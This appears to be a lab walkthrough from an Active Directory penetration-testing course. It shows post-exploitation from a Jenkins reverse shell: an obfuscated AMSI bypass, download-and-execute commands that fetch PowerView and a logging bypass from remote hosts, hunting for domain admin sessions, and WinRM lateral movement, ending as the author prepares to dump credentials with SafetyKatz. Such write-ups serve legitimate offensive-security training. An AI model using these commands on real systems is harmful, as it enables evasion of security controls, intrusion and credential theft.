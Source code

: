 ### We got a reverse shell on dcorp-ci as ciadmin by abusing Jenkins.
**We can use Powerview’s Find-DomainUserLocation on the reverse shell to looks for machines where a domain admin is logged in. First, we must bypass AMSI and enhanced logging**

* PS C:\Users\Administrator\.jenkins\workspace\Projectx> iex (iwr http://172.16.100.31/sbloggingbypass.txt -UseBasicParsing)

### bypass AMSI
```
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

![alt text](image-30.png)

**Now, download and execute PowerView in memory of the reverse shell and run Find-DomainUserLocation. Check all the machines in the domain**

* iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/PowerView.ps1'))
* Find-DomainUserLocation

![alt text](image-32.png)

**There is a domain admin session on dcorp-mgmt server**

**Let’s check if we can execute commands on dcorp-mgmt server and if the winrm port is open**

* PS C:\Users\Administrator\.jenkins\workspace\Projectx> winrs -r:dcorp-mgmt cmd /c "set computername && set username"
```
COMPUTERNAME=DCORP-MGMT
USERNAME=ciadmin`
```

**We would now run SafetyKatz.exe on dcorp-mgmt to extract credentials from it. For that, we need to  copy Loader.exe on dcorp-mgmt Let's download Loader.exe on dcorp-ci and copy it from there to dcorp-mgmt. This is to avoid any downloading activity on dcorp-mgmt**
